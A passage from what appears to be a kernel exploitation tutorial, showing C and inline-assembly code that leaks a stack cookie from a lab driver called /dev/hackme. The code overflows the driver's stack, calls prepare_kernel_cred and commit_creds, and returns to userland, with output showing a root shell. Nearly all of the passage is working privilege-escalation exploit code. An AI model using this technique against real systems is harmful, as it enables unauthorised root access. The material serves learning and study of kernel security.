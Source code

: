     __asm__(".intel_syntax noprefix;"
            "movabs rax, prepare_kernel_cred;"
            "xor rdi, rdi;"
            "call rax;"            // execute prepare_kernel_creds(0)
            "mov rdi, rax;"        // put the return value into rdi
            "movabs rax, commit_creds;"
            "call rax;"            // execute commit_creds
            "swapgs;"              // swap GS register
            "mov r15, user_ss;"    // restore the registers from user mode
            "push r15;"
            "mov r15, user_sp;"
            "push r15;"
            "mov r15, user_rflags;"
            "push r15;"
            "mov r15, user_cs;"
            "push r15;"
            "mov r15, user_rip;"   // return to the payload
            "push r15;"
            "iretq;"               // switch from kernel to userland
            ".att_syntax;");
}

void overflow_stack(){
    uint8_t sz = 40;
    uint64_t payload[sz];
    payload[cookie_off++] = cookie;
    payload[cookie_off++] = (uint64_t) 0;  // RBX
    payload[cookie_off++] = (uint64_t) 0;  // R12
    payload[cookie_off++] = (uint64_t) 0;  // RBP
    payload[cookie_off++] = (uint64_t) privesc;  // RIP
    write(global_fd, payload, sizeof(payload));
    puts("if you can read this, it did not work.");
}

int main(int argc, char **argv){
    open_dev();
    save_state();
    leak_cookie();
    overflow_stack();
    return 0;
}
{% endhighlight %}

Executing this code looks as follows.

```
$ ./no_mitigations
[+] successfully opened /dev/hackme
[*] Saved state
[*] trying to leak up to 320 bytes memory
[+] leaked cookie 0x2aa741ea8a7daa00 at offset 16
[+] we are root (uid = 0)
/ # id
uid=0 gid=0
```
